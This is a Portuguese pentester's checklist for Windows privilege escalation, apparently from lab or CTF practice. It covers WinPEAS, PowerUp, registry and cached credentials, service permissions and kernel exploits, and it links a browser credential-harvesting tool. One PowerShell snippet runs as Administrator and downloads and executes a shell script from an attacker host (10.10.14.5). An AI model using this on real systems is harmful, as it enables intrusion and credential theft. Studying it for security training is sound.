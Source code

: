 # Windows PrivEsc

1. Navegar nos diretorios do usuario para ver se existe algo ali que possa nos fornecer uma credencial ou algum bionario que inicie um servico/programa vulneravel a escalacao de privilegio
2. [Check](<Windows PrivEsc.md#Winpeas>) Rodar o WinPEAS para verificar se existe algum servico disponivel para exploracao com permissoes demais. Aqui temos que usar o accesschk
3. [Check](<Windows PrivEsc.md#PowerUp>) Rodar o PowerUp
4. [Check](<Windows PrivEsc.md#Credenciais no registro>) checar credenciais no registro do windows
5. checar os servicos que estao rodando na maquina para ver se temos permissao de alteracao em algum deles
6. [Check](<Windows PrivEsc.md#ScheduledTasks>) checar as scheduleds tasks
7. verificar se existe algum servico rodando em localhost para exploracao de escalacao de privilegio
8. em sistemas mais antigos, explorar vulnerabilidades de kernel
9. Ja peguei cenarios em que uma maquina virtual estava instalada na maquina e foi possivel obter credenciais no historico desta mesma maquina
10. Testes mais basicos como testar a propria credencial do usuário ja comprometido para o Administrator tambem pode
11. Enumerar os discos da máquina e procurar por senhas ou arquivos sensíveis dentro destes.
12. Kernel exploits. Verificar a versão de kernel do windows. systeminfo
13. whoami /all ou /priv. Verificar privilégios do usuário. Vale considerar que estamos a procura do SEImpersonate.
14. Navegar nos diretórios C:\users, C:\program files, c:\program files (x86) afim de achar algum arquivo com informação sensível ou binário que possa ser explorado com exploits, por exemplo.
15. Winpeas e PowerUp
16. Verificar serviços em localhost
17.
    9. Verificar scheduled taskts
18. Verificar credenciais em cache
19. Verificar credenciais no registro
20. Verificar unquoted service path (DLL Hijacking)
21. Weak service permissions

Depois considerar esse link para verifcar uma ferramenta para obtenção de credencais em processos como firefox chrome e afins...

https://github.com/putterpanda/mimikittenz

## Com credencial

```
$password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5:8000/shell2.ps1')" -Credential $cred
```

Outra opção seria:

```
$username = "arkham\batman"
$password = "Zx^#QZX+T!123"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
new-pssession -computername . -credential $cred
```
Ainda outra opção seria com runas:
